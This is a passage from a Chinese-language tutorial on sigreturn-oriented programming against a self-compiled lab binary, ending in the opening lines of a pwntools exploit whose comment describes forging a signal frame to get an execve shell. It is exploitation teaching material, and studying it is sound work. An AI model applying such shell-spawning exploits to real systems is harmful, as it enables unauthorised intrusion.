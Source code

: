 前两行汇编先随便调调syscall，方便找到syscall的地址。然后就是exit流程，不细说了。

编译上面的C代码后，得到srop程序

可以简单测测，随便输几个字母进去，会直接退出，我就不贴这个截图了，大家自测。

接下来我们要传入更多字符（大于0xf8），即传入伪sigFrame，利用代码如下

```
from pwn import *





context(

    log_level='debug',

    arch = "amd64",

    binary = "./srop"

)





# the c program is easy. It just read() a string in. It can receive 0x200 max. and then check if the input string is longer than sizeof(ucontext_t) which is also called sigFrame(the size is 0xf8), if not, the program exits. if so, the program set rsp to global_buf and trigger sigreturn directly. and then the sigFrame is recovered by sigreturn syscall, so we got execve syscall executed ending up with a shell.

io = process()

elf = ELF('./srop')





# create debug file

try:

    f = open('pid', 'w')

    f.write(str(proc.pidof(io)[0]))

    f.close()

except Exception as e:

    print(e)





str_bin_sh_offset = 0x100




```